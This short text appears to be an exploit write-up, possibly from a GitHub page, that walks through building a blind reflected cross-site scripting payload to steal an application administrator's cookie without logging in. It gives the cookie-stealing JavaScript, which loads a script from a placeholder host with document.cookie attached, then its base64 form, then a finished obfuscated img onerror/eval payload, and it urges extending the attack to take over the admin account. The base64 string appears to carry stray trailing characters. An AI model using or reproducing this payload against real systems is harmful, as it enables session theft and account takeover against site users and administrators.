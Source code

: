 you can perform blind reflective xss without logging into the application and even be able to get the cookie from the admin account

How to Create your Payload:
1. convert "var a=document.createElement("script");a.src=" http://domain.tld/a.js?"+document.cookie;document.body.appendChild(a);" into base 64 data example 
  dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9IiBodHRwOi8vZG9tYWluLnRsZC9hLmpzPyIrZG9jdW1lbnQuY29va2llO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk77

2. add your base 64 data in pace of data in the payload "<img Src=x Onerror=eval(atob(this.id)) Id="data">"

3. create a listner on your server with a file a.js that does nothing or you could add something you wish to get the admin account done.. up to you!

The final payload will look like:
<img Src=x Onerror=eval(atob(this.id)) Id="dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9IiBodHRwOi8vZG9tYWluLnRsZC9hLmpzPyIrZG9jdW1lbnQuY29va2llO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk77">
